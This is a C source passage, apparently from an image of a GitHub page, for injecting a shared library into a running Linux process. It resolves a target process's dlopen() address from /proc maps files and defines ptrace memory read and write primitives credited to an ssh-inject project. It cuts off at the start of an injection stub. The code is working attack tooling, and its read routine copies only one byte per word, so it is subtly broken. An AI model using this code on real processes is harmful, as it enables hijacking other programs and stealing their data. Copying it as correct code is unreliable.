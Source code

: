 ```c
    fprintf(stderr, "[+] Address of local dlopen at %p\n", local_dlopen_address);
    
    // Read local address
    fp = fopen("/proc/self/maps", "r");
    while(fgets(line, 850, fp) != NULL) {
        sscanf(line, "%llx-%*lx %*s %*s %*s %*d", &local_libdl_base);
        if (strstr(line, LIBDLSO) != NULL) {
            break;
        }
    }
    fclose(fp); 
    // Calculate the offset (libdl address - dlopen address)
    offset_dlopen = (unsigned long long) (local_dlopen_address - local_libdl_base);
    fprintf(stderr, "[+] Offset of dlopen(): 0x%llx bytes\n", offset_dlopen);
    
    // Now we need to extract the remote libdl address
    snprintf(path, sizeof(path), "/proc/%d/maps", pid); 
    fp = fopen(path, "r");
    while(fgets(line, 850, fp) != NULL) {
        sscanf(line, "%llx-%*lx %*s %*s %*s %*d", &remote_libdl_base);
        if (strstr(line, LIBDLSO) != NULL) {
            break;
        }
    }
    fclose(fp);
 fprintf(stderr, "[+] Remote %s address at 0x%llx\n", LIBDLSO, remote_libdl_base);
        
    // And finally calculate the address of the remote dlopen
    remote_dlopen_address = remote_libdl_base + offset_dlopen;
    fprintf(stderr, "[+] Remote dlopen() address at 0x%llx\n", remote_dlopen_address);
    return remote_dlopen_address;
}


// Primitives are taken from https://github.com/xpn/ssh-inject/blob/master/inject.c
void ptraceRead(int pid, unsigned long long addr, void *data, int len) {
    long word = 0;
    int i = 0;
    char *ptr = (char *)data;

    for (i=0; i < len; i+=sizeof(word), word=0) {
        if ((word = ptrace(PTRACE_PEEKTEXT, pid, addr + i, NULL)) == -1) {;
            fprintf(stderr, "[-] Error reading process memory\n");
            exit(1);
        }
        ptr[i] = word;
    }
}

void ptraceWrite(int pid, unsigned long long addr, void *data, int len) {
    long word = 0;
    int i=0;

    for(i=0; i < len; i+=sizeof(word), word=0) {
        memcpy(&word, data + i, sizeof(word));
        if (ptrace(PTRACE_POKETEXT, pid, addr + i, word) == -1) {;
            fprintf(stderr, "[-] Error writing to process memory\n");
            exit(1);
        }
    }
}

void injectme(void) { // To do the call and SIGTRAP (int3)
```